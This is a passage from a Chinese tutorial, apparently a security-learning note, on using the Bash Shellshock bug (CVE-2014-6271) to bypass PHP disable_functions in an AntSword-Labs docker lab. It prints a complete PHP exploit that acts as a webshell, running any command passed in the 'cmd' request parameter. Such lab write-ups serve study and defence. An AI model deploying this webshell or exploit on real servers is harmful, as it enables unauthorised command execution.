 ### 2.4.2 原理简述

该方法利用的bash中的一个老漏洞，即Bash Shellshock 破壳漏洞（CVE-2014-6271）。

该漏洞的原因是Bash使用的环境变量是通过函数名称来调用的，导致该漏洞出现是以 `(){` 开头定义的环境变量在命令 ENV 中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令。而其核心的原因在于在输入的过滤中没有严格限制边界，也没有做出合法化的参数判断。

一般函数体内的代码不会被执行，但破壳漏洞会错误的将"{}"花括号外的命令进行执行。PHP里的某些函数（例如：mail()、imap_mail()）能调用popen或其他能够派生bash子进程的函数，可以通过这些函数来触发破壳漏洞(CVE-2014-6271)执行命令。

### 2.4.3 利用方法

我们利用 AntSword-Labs 项目来搭建环境：

```
git clone https://github.com/AntSwordProject/AntSword-Labs.git
cd AntSword-Labs/bypass_disable_functions/2
docker-compose up -d
```

搭建完成后访问 http://your-ip:18080，尝试使用system函数执行命令失败：

![image-20210525154439340](https://cdn.jsdelivr.net/gh/Qiangshen01/SecurityLearning/Web/bypass/Disable_functions/images_20210525154444.png)

查看phpinfo发现设置了disable_functions：

![image-20210525154518385](https://cdn.jsdelivr.net/gh/Qiangshen01/SecurityLearning/Web/bypass/Disable_functions/images_20210525154520.png)

我们使用蚁剑拿下shell：

![image-20210525154551503](https://cdn.jsdelivr.net/gh/Qiangshen01/SecurityLearning/Web/bypass/Disable_functions/images_20210525154553.png)

AntSword 虚拟终端中已经集成了对 ShellShock 的利用，直接在虚拟终端执行命令即可绕过disable_functions：

![image-20210525154626090](https://cdn.jsdelivr.net/gh/Qiangshen01/SecurityLearning/Web/bypass/Disable_functions/images_20210525154628.png)

也可以选择手动利用。在有权限的目录中（/var/tmp/exploit.php）上传以下利用脚本：

```php
<?php 
# Exploit Title: PHP 5.x Shellshock Exploit (bypass disable_functions) 
# Google Dork: none 
# Date: 10/31/2014 
# Exploit Author: Ryan King (Starfall) 
# Vendor Homepage: http://php.net 
# Software Link: http://php.net/get/php-5.6.2.tar.bz2/from/a/mirror 
# Version: 5.* (tested on 5.6.2) 
# Tested on: Debian 7 and CentOS 5 and 6 
# CVE: CVE-2014-6271 
function shellshock($cmd) { // Execute a command via CVE-2014-6271 @mail.c:283 
   $tmp = tempnam(".","data"); 
   putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1"); 
   // In Safe Mode, the user may only alter environment variableswhose names 
   // begin with the prefixes supplied by this directive. 
   // By default, users will only be able to set environment variablesthat 
   // begin with PHP_ (e.g. PHP_FOO=BAR). Note: if this directive isempty, 
   // PHP will let the user modify ANY environment variable! 
   //mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actuallysend any mail 
   error_log('a',1);
   $output = @file_get_contents($tmp); 
   @unlink($tmp); 
   if($output != "") return $output; 
   else return "No output, or not vuln."; 
} 
echo shellshock($_REQUEST["cmd"]); 
?>
```

